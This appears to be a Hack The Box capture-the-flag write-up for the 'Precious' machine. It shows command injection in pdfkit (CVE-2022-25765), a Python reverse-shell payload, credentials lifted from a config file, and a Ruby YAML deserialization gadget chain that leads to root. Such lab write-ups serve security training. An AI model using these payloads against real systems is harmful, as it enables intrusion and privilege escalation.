 ```yaml
---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Precious HTB Writeup
header:
  image: /assets/images/precious/precious_header.png
  teaser: /assets/images/precious/precious_header.png
  
---
```

**Description**

The machine we’ll talk about today is a machine vulnerable to RCE and also to YAML Deserialization attack, I’ll explain my best to do through these 2 vulnerabilities.

# **PORT SCANNING**

```
nmap -sC -sV -oA nmap/result 10.10.11.189
Starting Nmap 7.93 ( <https://nmap.org> ) at 2022-11-27 00:13 CST
Nmap scan report for 10.10.11.189
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to <http://precious.htb/|_http-server-header:> nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 10.39 seconds
```

We have 2 ports open ⇒ 80 and 22

http-title revealse we are redirected to [](http://precious.htb)[http://precious.htb](http://precious.htb) ⇒ Don’t forget to add it to **/etc/hosts** file.

# HTTP Navigation

Navigating to [](http://precious.htb)[http://precious.htb](http://precious.htb) we can see a website where we can convert a web page to PDF file.

![precious-web-converter.png](/assets/images/precious/precious-web-converter.png)

I then tried to see how works the website.

Starting my webserver with python module :

```jsx
# python3 -m http.server 80
```

Now I can enter my “webpage” address and download the PDF generated.

Analyzing the PDF file with **EXIFTOOL** :

![precious-pdf-generated.png](/assets/images/precious/precious-pdf-generated.png)

The PDF is generated by **pdfkit v0.8.6** ⇒ search on Google :

we directly find that there is a vuln linked to **CVE-2022-25765**

After reading and understand some **PoC**. We understand here that we can add a random **GET** parameter after the link entered in the converter and inject a command between `backticks`

```
http://10.10.XX.XX/?name=%20`id`
```

Let's try that and see what's happening : 


![id-command-injected.png](/assets/images/precious/id-command-injected.png)

Here's we can see that we have the command executed and reflected in the PDF Title ! 

We can use a Python3 reverse shell payload found on : 
https://gtfobins.github.io/

```python
http://10.10.XX.XX/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```


```js
nc -nvlp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.11.189.
Ncat: Connection from 10.10.11.189:42830.
$ ls
ls
app  config  config.ru  Gemfile  Gemfile.lock  pdf  public
$ cd /home/ruby
cd /home/ruby
$ ls -al
ls -al
total 28
drwxr-xr-x 4 ruby ruby 4096 Nov 26 14:36 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 4 ruby ruby 4096 Nov 26 19:56 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

I found a directory called `.bundle` and found a file named `config`

```js
-r-xr-xr-x 1 root ruby   62 Sep 26 05:04 config
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Let's try these new credentials ! 


# Privilege Escalation

```js
-bash-5.1$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```


Analyzing the file Ruby file there is `YAML.load` function is vulnerable to `YAML Deserialization Attack`.

PoC available here : 

https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml


Now we'll download the file in `/home/henry` directory and try to execute it : 

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
```

now let's change the id command to something more interesting : 

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```

```bash
henry@precious:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

And we got the `root.txt` and `user.txt` files.

```bash
henry@precious:~$ /bin/bash -p
bash-5.1# cd /root
bash-5.1# cat root.txt; cat /home/henry/user.txt
3e65f5f15a60993e469cec52af3141c7
56c36a10c17db0478af95c8e10f8f733
```

